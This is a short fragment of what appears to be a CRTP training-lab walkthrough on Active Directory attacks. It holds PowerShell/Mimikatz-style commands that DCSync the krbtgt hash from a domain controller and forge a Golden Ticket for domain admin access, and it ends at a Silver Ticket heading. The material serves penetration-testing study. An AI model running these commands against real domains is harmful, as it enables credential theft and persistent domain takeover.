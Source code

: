 ![Alt text](/assets/images/posts/crtp/9.png){: .align-center}





> [obs] Always use an active domain admin to generate tickets
> preferable use /ptt and purge the ticket after use with klist purge



Learning Objective 8

- Extract secrets from the domain controller of dollarcorp.
- Using the secrets of krbtgt account, create a Golden ticket.
- Use the Golden ticket to (once again) get domain admin privileges from a machine.

```powershell 
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe “lsadump::dcsync /user:dcorp\krbtgt” “exit”	# [get the aes256 hash]

C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d91 4cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"

klist # it shows the cached tickets
```


## Silver Ticket
